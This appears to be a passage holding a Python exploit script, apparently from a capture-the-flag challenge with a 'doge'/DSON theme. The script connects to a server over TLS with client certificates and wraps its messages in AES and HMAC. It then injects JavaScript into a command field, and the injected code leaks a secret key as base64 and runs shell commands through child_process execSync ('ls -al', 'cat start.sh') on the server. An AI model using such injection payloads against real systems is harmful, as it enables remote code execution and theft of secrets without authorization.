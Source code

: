 ```python

def encrypt(message, password):
    aes = AES.new(get_key(password), mode=AES.MODE_CBC, iv=AES_IV)
    return aes.encrypt(pad(message, AES.block_size))

def decrypt(message, password):
    aes = AES.new(get_key(password), mode=AES.MODE_CBC, iv=AES_IV)
    return unpad(aes.decrypt(message), AES.block_size)

def hmac(message, password):
    h = HMAC.new(get_key(password), digestmod=SHA256)
    h.update(message)
    return h.digest()

def wrap(message):
    encrypted = encrypt(message, AES_PASSWORD)
    msg_hmac = hmac(encrypted, HMAC_PASSWORD)
    payload = b''
    payload += struct.pack('>I', len(msg_hmac)+len(encrypted))
    payload += msg_hmac
    payload += encrypted
    return payload

def recv(connection):
    message_len = struct.unpack('>I', connection.read(4))[0]
    message = connection.read(message_len)
    msg_hmac, msg_encrypted = message[:32], message[32:]
    msg_decrypted = decrypt(msg_encrypted, AES_PASSWORD)
    dson_str = msg_decrypted.decode('ascii').replace('next', '.').replace('undefined', '""')
    print(dson_str)
    return dson_str

context = ssl.create_default_context(ssl.Purpose.SERVER_AUTH, cafile='doge.ca.pem')
context.load_cert_chain(certfile='doge.client.pem', keyfile='doge.client.key')
context.check_hostname = False

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn = context.wrap_socket(s, server_side=False)
conn.connect((HOST, PORT))

print(conn.getpeercert())
conn.send(wrap(dson.dumps({'dogesez':'ping'}).encode('ascii')))
print(recv(conn))

#doge_code = """Array.from(secrit_key).map(x => x.toString(16)).join('')"""
doge_code = """Buffer.from(secrit_key).toString('base64')"""
doge_code = """cp.execSync('ls -al').toString()"""
doge_code = """cp.execSync('cat start.sh').toString()"""
#doge_code = """secrit_key.length"""

conn.send(wrap(dson.dumps({'dogesez':'do me a favor','ohmaze':doge_code}).replace('", "', '" next "').encode('ascii')))
print(recv(conn))
```
